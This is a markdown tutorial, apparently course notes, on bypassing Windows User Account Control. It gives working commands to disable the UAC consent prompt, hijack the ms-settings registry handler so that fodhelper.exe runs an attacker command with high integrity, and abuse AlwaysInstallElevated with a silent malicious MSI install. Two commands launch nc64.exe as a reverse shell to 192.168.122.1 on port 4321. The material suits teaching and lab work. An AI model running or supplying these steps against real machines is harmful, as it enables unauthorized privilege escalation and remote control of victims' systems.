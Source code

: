 ## UAC Bypass

Certain executables signed by Microsoft can be used to bypass UAC, since they are started with higher integrity levels if the user executing them belongs to the administrator group.

```powershell
Start-Process -FilePath "powershell.exe" -Verb RunAs
```

```cmd
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin /t REG_DWORD /d 0 /f
```
- Change **0** to cycle through the different levels and see how it changes the interaction with the program. In this case, we are just launching PowerShell.

Check the Mandatory Label
```powershell
whoami /groups
```

**Secure Desktop** - After executing the command **it will not** let you interact with other programs.
**Normal Desktop** - After executing the command **it will** let you interact with other programs.
## sigcheck.ex

To check if a binary starts as `autoelevated automatically` you can use the `sigcheck.exe` utility from Sysinternals to read the `Manifest` of the binary.

```cmd
.\Sigcheck\sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

Manifest of fodhelper.ex

```cmd
.\Sigcheck\sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\fodhelper.exe:
		Verified:       Signed
		Signing date:   02:16 05/10/2024
		Publisher:      Microsoft Windows
		Company:        Microsoft Corporation
		Description:    Features On Demand Helper
		Product:        Microsoft« Windows« Operating System
		Prod version:   10.0.22621.4249
		File version:   10.0.22621.4249 (WinBuild.160101.0800)
		MachineType:    64-bit
		Binary Version: 10.0.22621.4249
		Original Name:  FodHelper.EXE
		Internal Name:  FodHelper
		Copyright:      ® Microsoft Corporation. All rights reserved.
		Comments:       n/a
		Entropy:        4.803
		Manifest:
```

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Copyright (c) Microsoft Corporation -->
<assembly
	xmlns="urn:schemas-microsoft-com:asm.v1"
	xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
	manifestVersion="1.0">
  <assemblyIdentity type="win32" publicKeyToken="6595b64144ccf1df" name="Microsoft.Windows.FodHelper" version="5.1.0.0" processorArchitecture="amd64"/>
  <description>Features On Demand Helper UI</description>
  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
   <security>
	   <requestedPrivileges>
		   <requestedExecutionLevel
		     level="requireAdministrator"
		   />
		</requestedPrivileges>
	</security>
	</trustInfo>
	<asmv3:application>
		<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
			<dpiAware>true</dpiAware>
			<autoElevate>true</autoElevate>
		</asmv3:windowsSettings>
	</asmv3:application>
</assembly>
```

## Level 0 - easy

In this level, there is nothing to bypass, you can simply spawn a process at a higher integrity level as follows:

```powershell
Start-Process -FilePath "C:\Users\Quickemu\Downloads\nc64.exe" -ArgumentList "192.168.122.1 4321 -e cmd.exe" -Verb RunAs -WindowStyle Hidden
```

If you belong to an administrator group, then you will get access to your full administrator powers.

Notice that doing `Start-Process` is different from simply starting a process directly, since integrity level are inherited from parent processes, unless started explicitly with `Start-Process`.

The command options `-Verb RunAs` is used for requesting elevation of integrity levels and it makes sure that the new process will be started with a higher integrity level.

## Level 5 - fodhelper.exe

Let's say we have a level of UAC that is level 5.

We can use the Windows Utility `Features on Demand` (FoD) to bypass the UAC prompt. Specifically, Windows treat the `fodhelper.exe` as a trusted system application, and so it runs it with `high integrity` without triggering a UAC prompt.

The attack works in two steps:
1. In the first step the attacker modifies the `Registry` in order to  configure the malicious command that will be run with high integrity levels.
2. In the second step, the `fodhelper.exe` binary is executed.

---

In practice, first we create the registry item

```powershell
New-Item -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Force
```

Then we configure it with the malicious values to execue a `cmd.exe`
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name '(Default)' -Value 'cmd.exe' -Type String
```

```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name 'DelegateExecute' -Value '' -Type String
```

 To execute a reverse shell:
```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name '(Default)' -Value 'C:\Users\Quickemu\Downloads\nc64.exe 192.168.122.1 4321 -e cmd.exe' -Type String
```

```powershell
Set-ItemProperty -Path 'HKCU:\Software\Classes\ms-settings\shell\open\command' -Name 'DelegateExecute' -Value '' -Type String
```

Execute binary to finish getting a shell
```powershell
fodhelper.exe
```
## Level 1,2,3,4 - Always Install Elevated

If the `Always Install Elevated` configuration is enabled, it is possible to trigger arbitrary code as the system account during the installation of malicious `.msi` packages.

```powershell
msiexec /quiet /qn /i sample2.msi
```

This will bypass any UAC levels.

## References

Hack Tricks, UAC - User Account Control: https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control

By Pass UAC Using Fodhelper: https://nadimsaliby.medium.com/by-pass-uac-using-fodhelper-e4a94e04d5f0

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-11-22-windows-privesc-uac-bypass/content/notes.txt